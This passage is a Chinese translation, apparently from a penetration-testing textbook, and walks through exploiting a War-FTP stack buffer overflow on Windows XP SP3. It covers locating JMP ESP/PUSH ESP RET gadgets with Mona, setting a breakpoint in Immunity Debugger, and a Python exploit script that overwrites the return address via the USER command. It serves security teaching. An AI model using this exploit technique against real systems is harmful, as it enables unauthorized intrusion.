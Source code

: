 现在我们可以将`00AFFD48`直接放入返回地址，替换我们的*C*为 shellcode，这样我们就有了一个完整的漏洞利用，对吗？差不多，但还不完全正确。不幸的是，如果我们将地址`00AFFD48`硬编码到返回地址中，漏洞利用可能在我们这里能够正常工作，但在其他情况下却可能无法使用——而我们希望它尽可能普遍地工作。正如我们在第十六章中看到的，像 ESP 这样的寄存器的位置可能会根据程序因素（如提供的参数的长度）发生变化，或者因为栈与线程相关联，这意味着下一次攻击时栈地址可能会不同。幸运的是，跳转到 CPU 寄存器以执行其内容的汇编语言指令是`JMP ESP`（或者根据需要使用其他寄存器名称）。在未启用 ASLR 的操作系统中，例如我们的 Windows XP SP3 目标，Windows DLLs 每次都会加载到相同的内存位置。这意味着如果我们在 Windows XP 目标的可执行模块中找到`JMP ESP`，它应该在每台 Windows XP SP3 英文版机器上都在相同的位置。

事实上，`JMP ESP`并不是我们唯一的选择。只要我们最终能够将执行指向 ESP，我们就可以使用与`JMP ESP`等价的指令，甚至可以使用一系列指令。例如，`CALL ESP`也可以工作，或者`PUSH ESP`后跟`RET`，这样就可以将执行转到 ESP 中的内存地址。

我们可以通过命令`!mona jmp -r esp`在 War-FTP 的可执行模块中找到所有`JMP ESP`及其逻辑等价物，如图 17-11 所示。

![使用 Mona 查找 JMP ESP](img/httpsatomoreillycomsourcenostarchimages2030530.png.jpg)图 17-11. 使用 Mona 查找`JMP ESP`

结果写入到*C:\logs\war-ftpd\jmp.txt*。我们得到了 84 个可能的`JMP ESP`（或等效）指令。有些可能包含不良字符（如本章后面讨论的那样）——我们应该选择哪些指令呢？根据经验，优先选择属于应用程序本身的模块，而不是操作系统。如果这不可能，尝试选择相对稳定的模块，如*MSVCRT.dll*，因为与其他 Windows 模块相比，Windows 补丁对该模块的更改非常少（尽管仍有可能根据操作系统的语言进行更改）。Mona 在*MSVCRT.dll*中找到的`JMP ESP`指令如下所示。

```
0x77c35459 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
0x77c354b4 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
0x77c35524 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
0x77c51025 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSVCRT.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v7.0.2600.5512 (C:\WINDOWS\system32\MSVCRT.dll)
```

让我们使用第一个：`PUSH ESP`，然后在`0x77C35459`处出现`RET`。如第十六章所示，我们可以设置断点，在我们到达重定向执行到 ESP 的指令时暂停执行，并在替换*C*为待执行指令之前确保一切正常。使用命令**`bp`** **`0x77C35459`** 在免疫调试器中设置一个断点，如图 17-12 所示。（要查看所有当前设置的断点，请在免疫调试器中转到**视图** ▸ **断点**。）

![免疫调试器中的断点](img/httpsatomoreillycomsourcenostarchimages2030532.png.jpg)图 17-12. 免疫调试器中的断点

现在，将攻击字符串中的四个*B*替换为指向 ESP 重定向位置的地址，如示例 17-5 所示。

示例 17-5. 使用来自可执行模块的返回地址

```
root@kali:~# **cat ftpexploit**
#!/usr/bin/python
import socket
buffer = "A" * 485 + "\x59\x54\xc3\x77" + "C" * 4 + "D" * 607 ❶
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

准备好断点后，我们将新的返回地址放在攻击字符串的正确位置，位于❶处，并将 611 个*C*替换为四个*C*，然后是 607 个*D*，以补偿 ESP 前的攻击字符串的四个字节。将攻击字符串放置好后，针对 War-FTP 运行漏洞，看看是否能够在免疫调试器中达到我们的断点，如图 17-13 所示。
